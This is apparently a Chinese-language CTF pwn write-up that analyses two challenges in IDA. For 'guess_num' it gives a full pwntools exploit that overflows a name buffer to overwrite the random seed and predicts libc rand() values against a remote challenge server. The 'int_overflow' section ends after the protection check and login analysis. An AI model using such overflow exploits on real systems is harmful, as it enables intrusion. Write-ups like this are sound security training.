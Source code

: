 ## guess_num

拖入IDA查看

![image-20210414203115766](https://s2.loli.net/2022/03/26/1R7PcvT5NotdkCB.png)

看的出大致是个猜谜游戏，需要连续对十次

![image-20210414203221728](https://s2.loli.net/2022/03/26/JfZcaDgGzVP7KpB.png)

运行一下程序检验果然如此

回IDA看到了一个主要函数

![image-20210414203635726](https://s2.loli.net/2022/03/26/lAFfS9bVZmHypKx.png)

又查看了里面参数的大小

![image-20210414204159888](https://s2.loli.net/2022/03/26/dL7SscAiwuURKTZ.png)

随机数选取的种子的值在rbp-10h处，我们输入name的buff在rbp-30h处，所以可以通过0x20个数据来将种子覆盖成一个我们自己输入的数

exp：

```
from pwn import *
from ctypes import *
r = remote('111.200.241.244',57019)
payload="a"*0x20+p64(1)
r.recvuntil("name:")
r.sendline(payload)
for i in range(10):
	num = str(cdll.LoadLibrary("/lib/x86_64-linux-gnu/libc.so.6").rand()%6 + 1)
	r.recvuntil("number:")
	r.sendline(num)
r.interactive()
```

## int_overflow

![image-20210415163126787](https://s2.loli.net/2022/03/26/amigB1WYPdwG2kb.png)

检查保护机制，发现只启用了**NX(NoeXecute，数据不可执行**)保护机制，因此可以拿来做**栈溢出**攻击。（NX保护开启意味着栈中数据没有执行权限，以前的经常用的call esp或者jmp esp的方法就不能使用，但是可以利用**rop**这种方法绕过）

拖入IDA查看

![image-20210415163255727](https://s2.loli.net/2022/03/26/GAvVrlLTufJ95bB.png)

先输入1，进入login函数，双击跟进login函数

![image-20210415163337057](https://s2.loli.net/2022/03/26/sKqwPyR2Yumca4v.png)

接受了一个最大长度为409的password，还有一个check_passwd函数检查password
